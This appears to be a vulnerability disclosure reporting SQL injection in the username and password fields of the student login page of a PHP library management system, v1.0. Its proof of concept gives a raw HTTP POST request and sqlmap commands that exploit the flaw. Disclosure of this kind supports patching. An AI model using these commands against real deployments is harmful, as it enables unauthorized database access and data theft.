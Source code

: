 # Library System In PHP - SQL Injection (Student Login)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Library System In PHP](https://code-projects.org/library-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Lms/Source/librarian/user/student/login.php

> Two parameters `username` and `password` within student login are vulnerable to SQL Injection.


![username](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3Library%20System%20In%20PHP-Sqli-student_login_username.png)

![password](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3Library%20System%20In%20PHP-Sqli-student_login_password.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `studentlogin.txt`:

```
POST /Lms/Source/librarian/user/student/login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://172.16.8.56/Lms/Source/librarian/user/index.php
Cookie: PHPSESSID=4nq5is5jf875uo0a4v5nohv7s7
Content-Length: 87
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Host: 172.16.8.56
Connection: Keep-alive

login=Login&password=-1&username=TYYHyRvY
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r studentlogin.txt --batch --dbms MYSQL --is-dba -p username
```
```
sqlmap -r studentlogin.txt --batch --dbms MYSQL --is-dba -p password
```


## Recommendations

When using this Library System In PHP, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
